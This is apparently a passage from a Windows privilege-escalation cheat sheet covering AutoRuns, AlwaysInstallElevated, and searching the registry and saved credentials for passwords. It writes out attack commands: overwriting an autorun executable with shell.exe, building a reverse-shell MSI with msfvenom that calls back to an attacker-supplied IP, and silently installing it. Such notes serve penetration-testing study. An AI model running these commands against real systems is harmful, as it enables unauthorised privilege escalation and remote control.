 ### Version of loaded driver

```powershell
C:\Cas&gt; Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

## Binaries That AutoElevate (Registry)

### AutoRuns

&gt; Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges

```powershell
C:\Cas&gt; copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

### AlwaysInstallElevated

&gt; The catch is that two Registry settings must be enabled for this to work.
&gt; The “AlwaysInstallElevated” value must be set to 1 for both the local machine:
&gt; HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
&gt; and the current user: HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
&gt; If either of these are missing or disabled, the exploit will not work.
&gt; MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

Generate a new reverse shell with msi extension

```powershell
C:\Cas&gt; msfvenom -p windows/x64/shell_reverse_tcp lhost=&lt;my-ip&gt; lport=443 -f msi -o shell.msi
```

```powershell
C:\Cas&gt; msiexec /quiet /qn /i shell.msi
```

## Passwords

### Registry

&gt; Registry — “Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords.”

### Saved Creds

&gt; Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.
